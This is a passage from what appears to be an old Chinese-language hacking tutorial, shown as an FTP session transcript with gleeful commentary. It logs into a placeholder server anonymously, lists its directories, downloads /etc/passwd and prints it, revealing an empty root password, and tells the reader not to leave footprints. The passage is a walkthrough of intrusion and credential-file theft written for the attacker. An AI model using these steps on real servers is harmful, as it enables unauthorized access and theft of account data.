 (哇哩 !! 连密码都没得输入, 真是..... 再来 !! 要有恒心 !!) (换 FTP Port 试试) 

```bash
ms.hinet.net> ftp 111.222.255.255 
Connected to 111.222.255.255. 
220 cool FTP server (Version wu-2.4(1) Tue Aug 8 15:50:43 CDT 1995) ready. 
Name (111.222.255.255:FakeName): anonymous 
331 Guest login ok, send your complete e-mail address as password. Password: 
230-Welcome, archive user! This is an experimental FTP server. If have any 
230-unusual problems, please report them via e-mail to root@cool.com 
230-If you do have problems, please try using a dash (-) as the first character 
230-of your password -- this will turn off the continuation messages that may 
230-be confusing your ftp client.
230-
230 Guest login ok, access restrictions apply. 
Remote system type is UNIX. 
Using binary mode to transfer files. 
```

(哇 ! 可以用 anonymous 进来耶!! password 部份输入 aaa@ 就好了 ! 不要留下足迹喔!!) 

```bash
ftp> ls 
200 PORT command successful. 
150 Opening ASCII mode data connection for file list. 
etc 
pub
usr 
bin 
lib 
incoming 
welcome.msg 
226 Transfer complete. 
```

(嗯嗯... 太好了 ! 进来了 !! 下一个目标是.....) 

```bash
ftp> cd etc 
250 CWD command successful. 
ftp> get passwd (抓回来 !!) 
200 PORT command successful. 
150 Opening BINARY mode data connection for passwd (566 bytes). 
226 Transfer complete. 
566 bytes received in 0.56 seconds (0.93 Kbytes/s) 
```

(喔... 这麽容易吗??) 

```bash
ftp> !cat passwd (看看 !!!) 
root::0:0:root:/root:/bin/bash 
bin:*:1:1:bin:/bin: 
daemon:*:2:2:daemon:/sbin: 
adm:*:3:4:adm:/var/adm: 
lp:*:4:7:lp:/var/spool/lpd: 
sync:*:5:0:sync:/sbin:/bin/sync 
shutdown:*:6:0:shutdown:/sbin:/sbin/shutdown 
halt:*:7:0:halt:/sbin:/sbin/halt 
mail:*:8:12:mail:/var/spool/mail: 
news:*:9:13:news:/var/spool/news:
uucp:*:10:14:uucp:/var/spool/uucp: 
operator:*:11:0:operator:/root:/bin/bash 
games:*:12:100:games:/usr/games: 
man:*:13:15:man:/usr/man: 
postmaster:*:14:12:postmaster:/var/spool/mail:/bin/bash 

ftp:*:404:1::/home/ftp:/bin/bash 
```